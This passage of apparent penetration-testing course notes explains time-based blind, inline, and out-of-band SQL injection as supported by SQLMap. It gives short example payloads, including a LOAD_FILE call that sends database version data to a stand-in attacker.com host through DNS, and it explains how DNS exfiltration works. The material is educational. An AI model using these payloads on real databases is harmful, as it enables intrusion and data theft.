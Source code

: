 The principle ofÂ `Time-based blind SQL Injection`Â is similar to theÂ `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation betweenÂ `TRUE`Â orÂ `FALSE`.

- `TRUE`Â response is generally characterized by the noticeable difference in the response time compared to the regular server response
    
- `FALSE`Â response should result in a response time indistinguishable from regular response times

`Time-based blind SQL Injection`Â is considerably slower than the boolean-based blind SQLi, since queries resulting inÂ `TRUE`Â would delay the server response. This SQLi type is used in cases whereÂ `Boolean-based blind SQL Injection`Â is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g.Â `INSERT`,Â `UPDATE`Â orÂ `DELETE`), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, asÂ `Boolean-based blind SQL Injection`Â would not really work in this case.

---

## Inline queries

Example ofÂ `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

---

## Out-of-band SQL Injection

Example ofÂ `Out-of-band SQL Injection`:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g.Â `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g.Â `foo.attacker.com`), whereÂ `foo`Â would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect theÂ `foo`Â part, to form the entire SQL response.
